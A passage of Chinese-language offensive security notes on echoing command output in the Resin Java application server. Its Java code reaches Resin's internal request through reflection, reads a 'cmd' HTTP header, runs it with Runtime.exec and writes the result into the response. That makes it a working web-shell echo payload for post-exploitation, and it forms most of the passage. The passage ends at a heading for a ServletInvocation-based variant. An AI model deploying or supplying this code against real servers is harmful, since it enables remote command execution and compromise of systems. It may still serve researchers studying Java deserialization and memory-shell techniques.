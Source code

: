 

回显思路

- 通过调用TcpSocketLink.getCurrentRequest()获取ProtocolConnection对象（实际HttpRequest）
- 通过调用其父类(AbstractHttpRequest)的getResponseFacade方法获取response对象
- 通过反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入回显内容



代码实现

```java
// 获取TcpSocketLink Class对象
Class tcpSocketLinkClazz = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.network.listen.TcpSocketLink");
// 通过反射调用getCurrentRequest方法 
Method getCurrentRequestM = tcpSocketLinkClazz.getMethod("getCurrentRequest");
Object currentRequest = getCurrentRequestM.invoke(null);
// 从父类(AbstractHttpRequest)中获取_responseFacade字段
Field f = currentRequest.getClass().getSuperclass().getDeclaredField("_responseFacade");
f.setAccessible(true);
// 获取response对象
Object response = f.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```

##### 基于 ServletInvocation

- com.caucho.server.dispatch.ServletInvocation#getContextRequest

  - 获取ContextRequest对象

  ![image-20220105164537318](img/image-20220105164537318.png)
